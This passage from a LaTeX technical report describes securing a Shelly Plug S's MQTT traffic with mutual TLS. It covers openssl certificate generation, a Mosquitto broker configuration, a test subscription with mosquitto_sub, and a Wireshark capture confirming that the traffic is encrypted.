    \caption{Certificate directory structure: separate directories for CA, Broker, Client (Shelly device), and Subscriber, each containing its certificate (\texttt{.crt}), private key (\texttt{.key}), and CSR (\texttt{.csr})}
    \label{fig:certificati}
\end{figure}

\noindent The certificates were generated using the following \texttt{openssl} commands:

\medskip
\noindent \textbf{1. Certificate Authority (CA):}

The self-signed root CA certificate is generated with a validity of 10 years:

\begin{bashcode}
# Generate CA private key (ECC P-256)
openssl ecparam -genkey -name prime256v1 -out CA/ca.key

# Generate self-signed CA certificate (10 years)
openssl req -new -x509 -key CA/ca.key -out CA/ca.crt \
    -days 3650 -subj "/CN=MyHomeCA"
\end{bashcode}

\medskip
\noindent \textbf{2. Broker Certificate:}

The broker certificate is signed by the CA. An extensions file (\texttt{server.ext}) is used to specify Subject Alternative Names (SANs), which is necessary for the broker's IP-based addressing:

\begin{bashcode}
# Generate broker private key
openssl ecparam -genkey -name prime256v1 -out Broker/server.key

# Generate Certificate Signing Request (CSR)
openssl req -new -key Broker/server.key -out Broker/server.csr \
    -subj "/CN=MQTTBroker"

# Sign the CSR with the CA (with SANs for IP-based access)
openssl x509 -req -in Broker/server.csr -CA CA/ca.crt \
    -CAkey CA/ca.key -CAcreateserial -out Broker/server.crt \
    -days 3650 -extfile Broker/server.ext
\end{bashcode}

\noindent Where \texttt{server.ext} contains:
\begin{verbatim}
subjectAltName = IP:74.161.73.178
\end{verbatim}

\medskip
\noindent \textbf{3. Client Certificate (Shelly Device):}

The client certificate identifies the Shelly Plug S device to the broker:

\begin{bashcode}
# Generate client private key
openssl ecparam -genkey -name prime256v1 -out Client/client.key

# Generate CSR
openssl req -new -key Client/client.key -out Client/client.csr \
    -subj "/CN=ShellyPlugS"

# Sign with CA
openssl x509 -req -in Client/client.csr -CA CA/ca.crt \
    -CAkey CA/ca.key -CAcreateserial -out Client/client.crt \
    -days 3650
\end{bashcode}

\medskip
\noindent \textbf{4. Subscriber Certificate:}

A separate certificate is generated for the subscriber client (e.g., a monitoring machine running \texttt{mosquitto\_sub}):

\begin{bashcode}
# Generate subscriber private key
openssl ecparam -genkey -name prime256v1 -out Subscriber/sub.key

# Generate CSR
openssl req -new -key Subscriber/sub.key -out Subscriber/sub.csr \
    -subj "/CN=Subscriber"

# Sign with CA
openssl x509 -req -in Subscriber/sub.csr -CA CA/ca.crt \
    -CAkey CA/ca.key -CAcreateserial -out Subscriber/sub.crt \
    -days 3650
\end{bashcode}

\noindent All four entities share the same CA trust anchor (\texttt{ca.crt}), creating a closed trust domain where only devices possessing a CA-signed certificate can participate in the MQTT communication.

\subsubsection{Mosquitto Broker Configuration}

The Mosquitto MQTT broker is configured to enforce mTLS by requiring client certificate verification. Figure~\ref{fig:mosquitto_mqtts} shows the relevant configuration directives in \texttt{mosquitto.conf}:

\begin{bashcode}
listener 8883
cafile /home/IoT-admin/mqtts/CA/ca.crt
certfile /home/IoT-admin/mqtts/Broker/server.crt
keyfile /home/IoT-admin/mqtts/Broker/server.key
require_certificate true
use_identity_as_username true
\end{bashcode}

\noindent Key configuration parameters:
\begin{itemize}
    \item \texttt{listener 8883}: The broker listens on the standard MQTTS port.
    \item \texttt{cafile}: The CA certificate used to validate both client and broker certificates.
    \item \texttt{certfile} / \texttt{keyfile}: The broker's own TLS certificate and private key.
    \item \texttt{require\_certificate true}: \textbf{This is the mTLS enforcement directive} — the broker will reject any client that does not present a valid, CA-signed certificate.
    \item \texttt{use\_identity\_as\_username true}: The Common Name (CN) field from the client certificate is used as the MQTT username, enabling certificate-based access control.
\end{itemize}

\subsubsection{Subscribing with mTLS}

To verify the correct operation of the MQTTS channel, the \texttt{mosquitto\_sub} command-line client was used with the subscriber's certificate and key. The following command connects to the broker on port 8883, presents the subscriber's certificate for mutual authentication, and subscribes to all topics:

\begin{bashcode}
mosquitto_sub -h 74.161.73.178 -p 8883 -t "#" -v \
    --cafile ca.crt --cert sub.crt --key sub.key
\end{bashcode}

\noindent The connection requires:
\begin{itemize}
    \item \texttt{--cafile ca.crt}: The CA certificate to verify the broker's identity.
    \item \texttt{--cert sub.crt}: The subscriber's own certificate, presented to the broker.
    \item \texttt{--key sub.key}: The subscriber's private key, proving ownership of the certificate.
\end{itemize}

\noindent Figures~\ref{fig:mosquitto_sub_mqtts} and \ref{fig:mosquitto_sub_mqtts2} show the MQTTS-encrypted telemetry data successfully received by the subscriber. The device publishes power, energy, temperature, relay state, and status information to the standard Shelly MQTT topic hierarchy, confirming full operational compatibility with the original Shelly ecosystem while maintaining encrypted transport.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase3/MosquittoMQTTS.png}
    \caption{MQTTS telemetry received via \texttt{mosquitto\_sub} with mTLS: power, energy, and temperature readings from the hardened firmware, encrypted over TLS}
    \label{fig:mosquitto_sub_mqtts}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase3/MosquittoMQTTS2.png}
    \caption{Extended MQTTS session showing relay status changes and continuous telemetry from the Shelly device}
    \label{fig:mosquitto_sub_mqtts2}
\end{figure}

\subsubsection{Wireshark Verification: Encrypted Traffic}

To confirm that the MQTTS implementation effectively prevents traffic interception, a Wireshark capture was performed on the network. Figures~\ref{fig:wire_mqtts}--\ref{fig:wire_mqtts3} show the captured packets:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{Images/Fase3/WireMQTTS.png}
    \caption{Wireshark capture of MQTTS traffic: unlike Phase~1 where MQTT topics and payloads were visible in plaintext, all data is now encrypted and appears only as opaque ``Application Data'' on port 8883}
    \label{fig:wire_mqtts}
\end{figure}

\begin{figure}[H]
    \centering
